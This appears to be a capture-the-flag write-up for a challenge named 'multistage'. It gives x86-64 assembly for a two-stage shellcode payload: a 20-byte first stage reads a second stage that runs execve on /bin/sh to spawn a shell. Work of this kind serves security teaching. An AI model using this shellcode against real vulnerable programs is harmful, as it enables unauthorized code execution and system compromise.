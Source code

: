 # multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```asm
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
; 2 * 0x90
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)

## Second Stage

```asm
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2a
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh" (RSI + 0x2a)
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)

Why 0x2a? Because the first stage is 20 bytes long and the second one is 22 bytes long. So the total is 42 = 0x2a.
